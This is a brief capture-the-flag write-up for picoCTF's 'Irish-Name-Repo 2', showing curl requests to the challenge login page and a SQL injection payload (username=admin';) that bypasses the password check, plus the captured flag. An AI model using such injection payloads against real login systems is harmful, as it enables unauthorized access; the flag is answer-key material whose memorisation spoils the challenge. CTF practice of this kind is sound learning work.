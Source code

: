 # Irish-Name-Repo 2

## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Solucion
```bash
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin&password=password&debug=1"
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>                                                       
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>       
┌──(kali㉿kali)-[~]
└─$  

```
picoCTF{m0R3_SQL_plz_fa983901}
## Notas adicionales

## Referencias